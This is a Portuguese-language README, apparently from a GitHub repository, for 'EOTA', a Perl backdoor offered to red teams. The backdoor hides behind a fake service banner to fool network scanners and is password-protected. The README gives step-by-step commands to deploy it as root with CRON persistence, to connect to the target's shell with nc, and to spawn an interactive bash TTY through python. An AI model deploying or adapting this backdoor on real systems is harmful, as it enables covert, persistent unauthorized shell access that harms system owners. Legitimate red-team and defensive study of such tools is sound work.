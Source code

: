 # EOTA
Este script é uma backdoor ''' Perl ''' projetada para equipes vermelhas e que funciona como um serviço/porta qualquer que voce desejar.
A backdoor informar qualquer programa de mapeamento de rede que ele é um serviço determinado pelo orquestrador da ferramenta.
Por favor modifique o codigo fonte da ferramenta para personalização.

#### obs: Necessario modificação para implementar criptografia no trafego.

## VARIAVEIS 
* $service = Utilizada como banner para ser exibido aos scanners.

* $sec = Esta é uma senha para utilizar a backdoor, não queros xeretas xeretando, utilize o perl para gerar a senha:
perl -e 'print crypt ("PASSWORD","salto")'
Modifique o PASSWORD para a senha e o SALTO para o salto utilizado na senha.

* $acs = Modifique esta variavel para controle de shell , por default utilizamos o /bin/bash.

## DICA:
EOTA foi projetado para ser utilizado com um arquivo CRON, seu banner exibe as configuracoes necessarias para esta feature funcionar.

## EXECUTANDO
Para executar EOTA voce precisará de acesso root ao sistema, depois execute os seguintes comandos:

>$ git clone https://github.com/Outs1d3r-Net/PERL.git
>$ cd PERL
>$ chmod a+x EOTA.pl
>$ perl ./EOTA.pl 110 & 2>&1

## CONECTANDO
>$ nc IP_alvo 110
>PASSWORD
>id

## TTY
Se voce precisar de um TTY voce verificar com o python por exemplo para obter uma linha de comando mais interativa:
>which python
>/usr/bin/python2 -c 'import pty;pty.spawn("/bin/bash")'
